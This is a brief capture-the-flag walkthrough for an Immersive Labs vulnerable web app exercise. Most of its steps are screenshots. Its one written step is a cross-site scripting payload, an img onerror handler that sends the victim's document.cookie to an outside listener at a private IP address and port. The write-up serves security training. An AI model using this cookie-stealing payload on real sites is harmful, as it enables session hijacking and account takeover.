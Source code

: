 ```yaml
---
date: 2025-02-20
categories: [CTF, ImmersiveLabs]
title: "IML - Mini CTF: Vulnerable Web App – Ep.3"
tags: ['web exploit', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Mini CTF Vulnerable Web App – - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Mini CTF: Vulnerable Web App – Ep.3


![image1](../resources/5b798f6da8f641a3b617ece54837c76f.png)

- Get an input field that broadcasts:


![image2](../resources/da75ca20153e48c98a269378acaa017d.png)

- Use payload:

`<img src=x onerror="location.href='http://10.102.120.158:8001/?c='+ document.cookie">`


![image3](../resources/14d26214249741618a0004b3d39c7f64.png)
